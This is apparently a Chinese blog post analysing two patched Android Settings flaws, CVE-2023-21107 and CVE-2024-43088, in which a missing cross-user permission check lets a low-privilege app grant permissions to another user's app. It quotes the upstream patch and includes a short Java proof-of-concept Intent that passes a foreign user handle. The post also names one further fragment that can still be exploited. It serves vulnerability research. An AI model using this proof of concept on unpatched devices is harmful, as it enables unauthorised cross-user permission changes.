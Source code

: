 ```yaml
---
title: 组件缺失校验导致跨用户CVE-2023-21107&CVE-2024-43088
slug: blog/discussion-3/
number: 3
url: https://github.com/CloveIso/notes/discussions/3
date:
  created: 2024-11-21
  updated: 2024-11-21
created: 2024-11-21
updated: 2024-11-21
authors: [Cloveiso]
categories: ['CVE分析']
comments: true
---
```


# 组件缺失校验导致跨用户CVE-2023-21107&CVE-2024-43088
<!-- 组件缺失校验导致跨用户CVE-2023-21107&CVE-2024-43088 -->
<!-- more -->
作为一个关键系统应用，系统设置拥有跨用户权限，此漏洞中的一个 Fragment 接收外部传递的 user handle 而没有任何输入校验和权限检查，然后直接开始使用这个 user handle，这样就使得攻击者可以利用一个低权限的恶意应用，打开 Settings 并传入其他用户的 handle，让高权限的 Settings 错误访问和操作其他用户的数据。

CVE-2023-21107漏洞补丁：[Enforce INTERACT_ACROSS_USERS_FULL permission for NotificationAccessDetails](https://android.googlesource.com/platform/packages/apps/Settings/+/179e5ce2a521710992b5ebdb2d88e0c3b3f2c12b^!/#F0)

CVE-2024-43088漏洞补丁：[Checks cross user permission before handling intent](https://android.googlesource.com/platform/packages/apps/Settings/+/975c28535419be1cc45f66712f41e4a7a40e6001)

## CVE-2024-43088分析

两个漏洞基本一模一样，这里以CVE-2024-43088为例浅浅分析一下

先看一下补丁：

```java
@@ -135,8 +137,13 @@
             }
         }
         if (intent != null && intent.hasExtra(Intent.EXTRA_USER_HANDLE)) {
-            mUserId = ((UserHandle) intent.getParcelableExtra(
-                    Intent.EXTRA_USER_HANDLE)).getIdentifier();
+            mUserId = ((UserHandle) intent.getParcelableExtra(Intent.EXTRA_USER_HANDLE))
+                    .getIdentifier();
+            if (mUserId != UserHandle.myUserId() && !hasInteractAcrossUsersPermission()) {
+                Log.w(TAG, "Intent not valid.");
+                finish();
+                return "";
+            }
         } else {
             mUserId = UserHandle.myUserId();
         }
@@ -159,6 +166,28 @@
         return mPackageName;
     }
 
+    @VisibleForTesting
+    protected boolean hasInteractAcrossUsersPermission() {
+        Activity activity = getActivity();
+        if (!(activity instanceof SettingsActivity)) {
+            return false;
+        }
+        final String callingPackageName =
+                ((SettingsActivity) activity).getInitialCallingPackage();
+
+        if (TextUtils.isEmpty(callingPackageName)) {
+            Log.w(TAG, "Not able to get calling package name for permission check");
+            return false;
+        }
+        if (mPm.checkPermission(Manifest.permission.INTERACT_ACROSS_USERS_FULL, callingPackageName)
+                != PackageManager.PERMISSION_GRANTED) {
+            Log.w(TAG, "Package " + callingPackageName + " does not have required permission "
+                    + Manifest.permission.INTERACT_ACROSS_USERS_FULL);
+            return false;
+        }
+        return true;
+    }
+
```

主要添加了hasInteractAcrossUsersPermission。当userID和当前的userID不同时就会调用hasInteractAcrossUsersPermission函数来校验拉起方是否有跨用户权限

找到漏洞位置：public abstract class AppInfoBase extends SettingsPreferenceFragment implements ApplicationsState.Callbacks，是一个fragment，并且是一个抽象类

![aosp.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732158042230_aosp.png)

 查找该函数调用：

![image-20241111155852745.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732158465468_image-20241111155852745.png)

以com.android.settings.applications.UsageAccessDetails为例，对应的是com.android.settings.Settings.AppUsageAccessSettingsActivity

![image-20241111160036278.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732158582299_image-20241111160036278.png)

我们直接拉起他看是什么样的

```
                Intent intent = new Intent();
                intent.setClassName("com.android.settings", "com.android.settings.Settings$AppUsageAccessSettingsActivity");
                intent.setData(Uri.parse("com.android.chrome"));
                startActivity(intent);
```

![image-20241111160719648.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732158670050_image-20241111160719648.png)

看到这个界面大概就明白了。就是可以跨用户授权呗

先随便写个应用，申请一下android.permission.PACKAGE_USAGE_STATS权限安装到user10

![image-20241111160202204.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732158839396_image-20241111160202204.png)

![image-20241111160314023.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732158981135_image-20241111160314023.png)

现在是不允许状态

![image-20241111160843406.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732159148933_image-20241111160843406.png)

然后我们切换回主用户再写一个应用

```
Intent intent = new Intent();
intent.setClassName("com.android.settings", "com.android.settings.Settings$AppUsageAccessSettingsActivity");
intent.setData(Uri.parse("com.android.test5"));
UserHandle us = UserHandle.getUserHandleForUid(1010000);
Log.e(TAG, "onClick: " + us );
intent.putExtra("android.intent.extra.user_handle", us);
startActivity(intent);
```

![image-20241111160549919.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732159477345_image-20241111160549919.png)

运行poc之后是这样子的

![image-20241111160600370.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732159559467_image-20241111160600370.png)

我们点击允许按钮，然后再切换到user10，这时已经变成已允许了

![image-20241111160909923.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732159825397_image-20241111160909923.png)

## 杂项

com.android.settings.applications.AppInfoBase的子类有很多，该问题代码在AppInfoBase的onCreate函数里就会调用。所以按理来说他的所有子类都是可以利用的。

但是实际并不是这样。由于settings的fragment的启动限制，有两种情况是没法利用的。

一种是只能由点击进入的fragment，例如com.android.settings.applications.AppStorageSettings

还有一种是在FRAGMENT_TO_SPA_APP_DESTINATION_PREFIX_MAP这个map里的

因为在这两个map里的fragment会调用com.android.settings.spa.SpaActivity$Companion.startSpaActivityForApp函数

![image-20241111170151967.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732160032804_image-20241111170151967.png)

startSpaActivityForApp函数会从intent中获取包名。然后末尾加上当前的userID，导致无法利用

![image-20241111170218170.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732172359362_image-20241111170218170.png)

那么还有哪些fragment可以利用呢，我仔细过滤了一遍：

然后只发现了一个0.0

com.android.settings.applications.appinfo.LongBackgroundTasksDetails

![image-20241111170554992.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732172423758_image-20241111170554992.png)



